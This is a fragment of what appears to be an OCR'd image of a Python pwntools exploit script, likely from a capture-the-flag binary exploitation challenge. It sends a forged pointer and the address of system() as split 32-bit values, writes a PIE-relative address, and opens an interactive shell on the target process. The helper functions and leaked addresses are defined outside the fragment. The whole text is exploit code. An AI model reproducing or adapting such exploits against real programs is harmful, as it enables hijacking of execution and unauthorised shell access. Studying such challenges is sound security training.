 ```python
print ("fake: " + hex(fake))

p.sendafter(': ', p32_(fake & 0xffffffff))
p.sendafter(': ', p32_(fake >> 32))

print ("system: " + hex(system))

p.sendafter(': ', p32_(system & 0xffffffff))
p.sendafter(': ', p32_(system >> 32))

for i in range(3):
    p.sendafter(': ', p32_(0))
    p.sendafter(': ', p32_(0))

p.sendafter(': ', p32_((0x202060 + pie_base) & 0xffffffff))
p.interactive()
```
